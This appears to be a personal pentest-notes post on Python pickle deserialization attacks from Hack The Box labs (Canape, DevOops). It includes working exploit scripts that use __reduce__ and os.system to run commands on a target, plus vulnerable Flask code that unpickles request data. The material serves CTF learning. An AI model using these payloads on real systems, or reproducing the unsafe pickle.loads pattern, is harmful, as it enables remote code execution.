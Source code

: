 ```yaml
---
layout: post
title: Python Pickle Deserialization
description: Python Pickle Deserialization
summary: Python Pickle Deserialization
tags: [python,deserial,foothold]
minute: 1
---
```

## Payload Format
Here is an example script I used in HTB Canape.

```python
#!/usr/bin/env python2

import requests
import pickle
import os
from hashlib import md5

class exploit(object):
  def __reduce__(self):
    return (os.system, ('echo homer && ping -c 1 10.10.14.34',))
    # THIS DOESNT WORK
    # return (os.popen, ('echo homer && ping -c 1 10.10.14.34',)) 

def dump_exploit():
  return pickle.dumps(exploit())

payload = dump_exploit()
c = payload[:-1]
q = payload[-1:]
url = 'http://10.10.10.70'

def submit():
  r = requests.post(url + '/submit', data = {'character': c, 'quote': q})

def check():
  r = requests.post(url + '/check', data = {'id': md5(c+q).hexdigest()})

submit()
check()
```

## Troubleshooting
When I did HTB Canape, my exploit didn't work when I tried to use the HTLM form in firefox.

![](/spindel/assets/Python%20Pickle%20Deserialization/FF16D104-763D-42D2-BF3D-C8181797ADAA.png)

But when I tried 0xdf python [script](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#code), it worked without any issues. I looked deeply by inspecting the packet capture for both python script and browser and here is what I found out.

Left side (python script), right (firefox).

![](/spindel/assets/Python%20Pickle%20Deserialization/7A8A1D33-2216-448E-865C-B2D8D716722D.png)

Based from the capture, the python script is sending `0A` which corresponds to newline `\n` while the firefox capture is sending `5c` which corresponds to file separator `\`.

If I tried again the HTML form in Firefox this time doing actual newline instead of `\n`, the packet capture looks better but it added `0D` for carriage return. Right now, I don't have clue yet on how to remove it.

![](/spindel/assets/Python%20Pickle%20Deserialization/FFB1CBD7-E58C-4BFE-B7B7-25C0016D1223.png)

![](/spindel/assets/Python%20Pickle%20Deserialization/F3B4C80C-4063-4C05-8C08-FAD46B34E93A.png)

* In HTB DevOops, my expoit was not working because I'm trying to incude `Subject` on the actual payload. Once I removed it, exploit worked.

```python
# This fails
payload = dump_exploit()
data_str = str({'Subject': payload})
data = base64.urlsafe_b64encode(data_str)

# This worked
payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
```

## Other Examples
* HTB DevOops

```python
# Vulnerable code
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

```python
#!/usr/bin/env python2

# Usage: python2 pickle_exploit.py 'ping -c 1 10.10.14.34'

import requests
import pickle
import os
import sys
from hashlib import md5
import base64

cmd = sys.argv[1]

class exploit(object):
  def __reduce__(self):
    return (os.system, (cmd,)) 

def dump_exploit():
  return pickle.dumps(exploit())

proxies = {'http': 'http://127.0.0.1:8080'}

payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
url = 'http://10.10.10.91:5000'

def submit():
  print(payload)
  r = requests.post(url + '/newpost', data = data, proxies = proxies)
  if r.status_code == 500:
    print('Exploit failed')
  else:
    print('Exploit successful!')

submit()
```

## References
* HTB Canape
* [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
* [Exploiting Insecure Deserialization bugs found in the Wild (Python Pickles)](https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/)
* [Pickle Arbitrary Code Execution | root4loot](https://root4loot.com/post/exploiting_cpickle/)
